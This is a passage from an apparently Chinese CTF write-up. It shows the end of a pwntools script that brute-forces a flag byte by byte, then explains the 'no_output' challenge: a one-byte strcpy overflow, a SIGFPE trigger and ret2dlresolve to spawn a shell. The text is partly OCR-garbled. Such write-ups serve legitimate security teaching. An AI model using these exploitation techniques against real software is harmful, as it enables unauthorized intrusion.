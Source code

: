     p.send(s1)

​

    time.sleep(0.1)

​

    p.send(pwn.flat(`{`0:c1, 0x100:c2`}`))

​

    try:

        p.read(timeout=0.2)

        p.close()

        return True

    except Exception:

        p.close()

        return False

​

​

import string

flag = ”

for i in range(0x100):

    for c in string.printable:

        r = guess(i, ord(c))

        if r:

            flag += c

            print(flag)

            break

**[****强网先锋] no_output**

strcpy存在单字节的溢出，可以覆盖fd，改为0后可以直接从stdin读入内容，从而通过strcmp的检测

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.anquanke.com/post/id/245271/1-510/)

[![](https://p1.ssl.qhimg.com/t01bb28f2dab87bdcb6.jpg)](https://p1.ssl.qhimg.com/t01bb28f2dab87bdcb6.jpg)

需要触发算数异常SIGFPE，可以通过-0x80000000/-1触发，触发后可以直接执行一个栈溢出；由于程序中没有输出函数，无法leak函数，所以使用ret2dlresolve方法直接getshell

[![](https://p2.ssl.qhimg.com/t0181fe41ff728fd230.jpg)](https://p2.ssl.qhimg.com/t0181fe41ff728fd230.jpg)

